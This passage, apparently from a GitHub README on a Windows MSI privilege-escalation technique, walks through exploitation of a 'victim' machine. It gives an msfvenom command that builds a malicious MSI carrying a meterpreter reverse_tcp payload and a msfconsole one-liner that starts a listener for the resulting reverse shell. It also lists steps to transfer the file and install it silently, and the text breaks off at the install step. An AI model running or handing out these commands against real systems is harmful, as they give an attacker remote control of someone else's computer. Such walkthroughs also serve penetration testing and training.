 ![Elevated-Privileges-Confirmation](/Pictures/Elevated-Privileges-Confirmation.png)

:information_source: In order to remove the malicious MSI file from the victim, run the following command (in a unprivilege session):

```
msiexec /q /n /uninstall NCVInstaller.msi
```

### Tool Exploitation

1) To perform exploitation with [msfvenom](https://github.com/rapid7/metasploit-framework), you can use the following command to create a malicious MSI file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=1234 EXITFUNC=thread -f msi > nickvourd.msi
```

Outcome:

![Msfvenom-Create-MSI](/Pictures/Msfvenom-Create-MSI.png)

2) Configure Metasploit's handler according to your selected MSI payload preferences:

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST eth0; set LPORT 1234; set EXITFUNC thread; set ExitOnSession false; exploit -j -z"
```

3) Transfer the malicious MSI file to the victim's machine.

4) Initiate the installation process for the malicious MSI package silently without any user interface:
